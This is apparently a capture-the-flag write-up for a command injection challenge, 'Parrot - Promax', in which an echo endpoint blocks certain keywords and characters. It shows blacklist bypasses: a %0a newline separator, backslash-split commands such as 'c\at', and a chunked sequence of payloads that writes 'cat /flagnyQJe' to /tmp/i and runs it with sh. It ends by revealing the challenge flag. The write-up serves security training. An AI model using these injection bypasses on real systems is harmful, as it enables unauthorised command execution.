



# Parrot - Promax (BKSEC Training 2026)
---
## Overview
The webapp reflects back to users exectly what user input if input is smaller or equal to 12-char length

## Reconnaissance

This is the next version of challenge [Parrot](../Parrot/README.md).

Server now blocks specific keyword used in executing OS Command like: ls, cat, etc...


It even filters special char terminating or having special meaning like: ;  |   ||  &   &&  '   ""


However, it seems that server filter mechanism using blacklist which cannot cover all dangerous keyword. And in this challenge, keyword `%0a` equivalent to `\n` successfully terminate the command (input `\n` doesn't work since server may escape it and return `n` only, neither `\\n` doesn't work)


Beside, server filters exact keyword `ls` still fails to prevent attacker execute command. Shell like `bash`, `zsh` or `sh` has a feature of backslash `\`:
**c\at** does exactly the same **cat** and so **l\s** does.



In linux, `\` is often considered as an escape character. However, `\` at the end of the line will be a sign that the line doesn't end but concatenate with the next line



The first one is `ls`, the second one is `cat j.txt`

### Vulnerability
Backend employs blacklist to forbid specific words, which can't cover all the dangerous words or special char.

Author could ban `\` to stop this trick.
## Exploitation

Beside using `l\s`, server misses `dir` having the same function. And `vdir` is `ls -l`



However, if we input `%0ac\at /flagnyQJe` will exceed the limit length.

I'll break the filename of flag into smaller chunk and write it to a file in /tmp

Since server uses `echo {input}`, we'll abuse that as below:

```bash
echo a\\>>/tmp/i
```

The command will append character **a** to end of `/tmp/i`. We want backslash at the end of each line; but it's an escape character, it will escape the next `>`. Avoiding it via using double backslash to escape itself, `\\` becomes `\` uopen the shell read them.

I'll write command `cat /flagnyQJe` into `/tmp/i`
Submit the following, line by line or you can refer to my [script](assets/promax.py)

```bash
c\\>>/tmp/i
a\\>>/tmp/i
t\\>>/tmp/i
\ \\>>/tmp/i
\/\\>>/tmp/i
f\\>>/tmp/i
l\\>>/tmp/i
a\\>>/tmp/i
g\\>>/tmp/i
n\\>>/tmp/i
y\\>>/tmp/i
Q\\>>/tmp/i
J\\>>/tmp/i
e\\>>/tmp/i
```

Now `/tmp/i` contains:
```bash
c\
a\
t\
 \
/\
f\
l\
a\
g\
n\
y\
Q\
J\
e\
```
Run `%0ash /tmp/i` to run the command inside the file


> Flag: ***BKSEC{h4v3_y0u_1nj3ct3d_y0urs3lf_c8f2a9b36e2239}***


